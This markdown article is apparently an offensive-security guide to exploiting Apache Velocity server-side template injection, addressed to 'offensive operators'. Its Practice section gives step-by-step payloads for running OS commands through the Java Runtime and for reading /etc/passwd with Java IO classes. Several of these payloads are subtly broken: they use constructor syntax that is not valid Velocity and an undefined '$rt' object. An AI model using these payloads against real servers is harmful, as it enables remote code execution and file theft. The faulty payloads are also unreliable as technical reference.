 ```yaml
---
title: Mastering Velocity Exploitation Techniques
description: Explore Apache Velocity SSTI for remote code execution and file access
  with practical steps and payloads.
keywords:
- Velocity SSTI
- Apache Velocity
- remote code execution
- file access
- template injection
- Java runtime
- security vulnerabilities
- exploitation techniques
---
```


# Velocity Exploitation

## Context

This article provides a comprehensive guide to exploiting Apache Velocity template injection for offensive purposes. It is crafted to help offensive operators understand and execute attacks that culminate in command execution or sensitive file access through server-side template injection (SSTI). Before delving into these techniques, readers should have an understanding of template engines, the Java Runtime Environment, web server architecture, and generic SSTI techniques.

## Theory

### Apache Velocity Template Engine Internals

Apache Velocity is a Java-based templating engine that facilitates dynamic web content rendering. While it empowers developers with the capability to dynamically generate site content using the Velocity Template Language (VTL), it can also pose significant security risks if not properly sandboxed.

One underlying principle that makes Apache Velocity potentially dangerous is its ability to access Java objects and methods directly within the templates. If user input is embedded within these templates in an unsafe manner, it could be evaluated, leading to arbitrary code execution.

### Velocity Injection Attack Surface

The attack surface for Velocity injection is broadened by the ease with which Apache Velocity templates can evaluate user-controllable inputs. A typical attack sequence involves an adversary injecting Velocity syntax into any field or parameter processed by the template engine.

Developers often make the mistaken assumption that these templates are fully isolated from sensitive Java classes. In reality, Velocity templates can interact with a broad spectrum of Java classes, thanks to built-in objects such as `$runtime` and `$request`, thereby exposing sensitive interfaces and functionalities.

### Command Execution via Velocity SSTI

At the core of exploiting Velocity for command execution is the engine's linkage with the Java Runtime. It allows access to Java's underlying system processes if it isn't deliberately restricted, facilitating command execution directly through template evaluations.

Attackers exploit this by using syntax such as `#set($x=$rt.getRuntime())` to fetch a Runtime instance, which can then instigate command executions. Input filter mechanisms often fail against strategic input obfuscation or alternate syntax forms, thus allowing these injections to succeed.

### File Access and Inclusion via Velocity

For file access and inclusion, the Velocity engine utilizes Java's input/output (IO) classes, enabling attackers to read or include arbitrary files via template injections.

For example, malicious payloads can deliberately instantiate `File` or `FileInputStream` classes, achieving unauthorized file accesses and completions due to improper input validation and inadequate access controls in templates.

## Practice

### Velocity SSTI for Remote Command Execution

To exploit Velocity SSTI for Remote Command Execution:

1. Inject the following payload to obtain a Runtime instance and execute the `id` command on the server:
    
    ```velocity
    #set($x=$rt.getRuntime())
    #set($y=$x.exec('id'))
    $y.waitFor()
    ```

2. Read and display the command output by injecting additional Velocity syntax:
    
    ```velocity
    #set($is=$y.getInputStream())
    #set($br=new java.io.BufferedReader(new java.io.InputStreamReader($is)))
    #set($output='')
    #set($line = $br.readLine())
    #while($line)
    $output$line
    #set($line = $br.readLine())
    #end
    $output
    ```

*Outcome*: If successful, the attacker gains the ability to execute arbitrary OS commands on the target server, which can lead to significant control over the victim system.

### Velocity SSTI for Arbitrary File Read

To achieve Arbitrary File Read using Velocity SSTI:

1. Deploy the following payload to read contents of the `/etc/passwd` file using Java IO classes:

    ```velocity
    #set($fis=new java.io.FileInputStream('/etc/passwd'))
    #set($isr=new java.io.InputStreamReader($fis))
    #set($br=new java.io.BufferedReader($isr))
    #set($line='')
    #foreach($line in $br.readLine())$line
    #end
    ```

*Outcome*: This exploitation fetches and displays sensitive information like the contents of the `/etc/passwd` file, potentially exposing critical server data.

## Tools

- **Burp Suite**: A tool for intercepting traffic and testing security vulnerabilities.
- **curl**: A command-line utility for crafting HTTP requests.
- **VelocityPayloads**: Predefined payloads to facilitate SSTI exploitation in Apache Velocity.

This detailed guide should arm security practitioners with the operational knowledge to exploit Apache Velocity template injection vulnerabilities effectively and responsibly, following ethical hacking guidelines.
